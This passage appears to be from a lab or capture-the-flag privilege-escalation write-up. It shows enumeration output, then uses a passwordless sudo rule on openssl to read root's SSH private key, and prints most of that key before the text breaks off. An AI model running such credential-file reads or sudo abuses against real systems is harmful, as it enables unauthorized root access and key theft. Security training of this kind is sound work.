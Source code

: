 ```shell
[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid             
Matching Defaults entries for srvadm on dmz01:                                               
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User srvadm may run the following commands on dmz01:
    (ALL) NOPASSWD: /usr/bin/openssl


╔══════════╣ Last time logon each user
Username         Port     From             Latest                                            
root             tty1                      Fri Mar  8 09:55:50 +0000 2024
lab_adm          pts/0    10.129.202.106   Tue May 31 11:31:49 +0000 2022
srvadm           pts/1    10.10.14.50      Thu Dec 26 03:09:28 +0000 2024
webdev           pts/0    10.129.202.106   Wed Jun  1 07:12:53 +0000 2022
```

It says that I can use `sudo` with `openssl` command.
Let's search it on `GTFOBins`.

I tried `sudo` tab to spawn a reverse shell, but it was not working.
Instead, let's try finding `root`'s RSA private key using `FILE READ` tab.

```bash
$ LFILE=/root/.ssh/id_rsa
$ sudo /usr/bin/openssl enc -in "$LFILE"
-----BEGIN OPENSSH PRIVATE KEY-----
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
```